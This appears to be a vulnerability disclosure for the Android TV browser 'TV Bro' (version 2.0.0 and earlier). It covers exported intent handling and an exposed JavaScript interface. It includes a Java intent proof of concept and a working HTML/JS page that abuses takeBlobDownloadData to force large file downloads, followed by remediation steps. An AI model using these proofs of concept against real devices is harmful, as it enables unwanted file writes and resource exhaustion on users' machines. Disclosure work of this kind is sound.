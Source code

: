 
---

## Vulnerability Report: `com.phlox.tvwebbrowser` 'TV Bro' Version <= 2.0.0

### Vulnerability: JavaScript Code Injection via Intent Handlers

**Severity**: 🔴 High

### Details:

The `com.phlox.tvwebbrowser` application improperly handles external intents, leading to potential Arbitrary Code Execution (ACE) and arbitrary file downloads via crafted URIs.

**Proof of Concept**:

![Proof of Concept](https://github.com/actuator/com.phlox.tvwebbrowser/assets/78701239/581c4577-3ee5-4277-8fe9-2109921a18ec)

```java
Intent intent = new Intent(Intent.ACTION_VIEW);
intent.setComponent(new ComponentName("com.phlox.tvwebbrowser", "com.phlox.tvwebbrowser.activity.main.MainActivity"));
intent.setData(Uri.parse("http://ampulicidae.com")); // any URL
startActivity(intent);
```

**CWE Reference**:
- [CWE-94](https://cwe.mitre.org/data/definitions/94.html): Improper Control of Generation of Code ('Code Injection')

### Remediation Steps:
1. Restrict External Intent Handling: In `AndroidManifest.xml`, set the `exported` attribute for the affected activity to `false`.
2. URI Sanitization: Implement strict validation and sanitation for URIs.

### Addendum:

The `com.phlox.tvwebbrowser` application exposes a JavaScript interface, TVBro, to its WebView component. This poses several security risks:

- **Resource Exhaustion**: Creating extremely large files using `takeBlobDownloadData` method.
- **Arbitrary File Creation/Downloads**: Files with any content can be created and downloaded without user consent.

**Proof of Concept**:

```html
<!-- Simple HTML code to demonstrate vulnerability -->
<!DOCTYPE html>
<html lang="en">
<head>
    <title>TV Bro Exploit Demo</title>
</head>
<body>
    <button onclick="triggerExploit()">Trigger Exploit</button>
    <div id="status"></div>
    <script>
        function generateRandomBase64String(length) {
            let characters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/';
            let result = '';
            for (let i = 0; i < length; i++) {
                result += characters.charAt(Math.floor(Math.random() * characters.length));
            }
            return result;
        }
        function triggerExploit() {
            const base64Data = generateRandomBase64String(500000);
            const fileName = 'exploit.txt';
            const url = 'http://ampulicidae.com'; 
            const mimeType = 'text/plain';
            if (window.TVBro && typeof window.TVBro.takeBlobDownloadData === 'function') {
                document.getElementById('status').innerText = "Invoking...";
                window.TVBro.takeBlobDownloadData(base64Data, fileName, url, mimeType);
            } else {
                document.getElementById('status').innerText = "Interface not found.";
            }
        }
    </script>
</body>
</html>
```

--- 


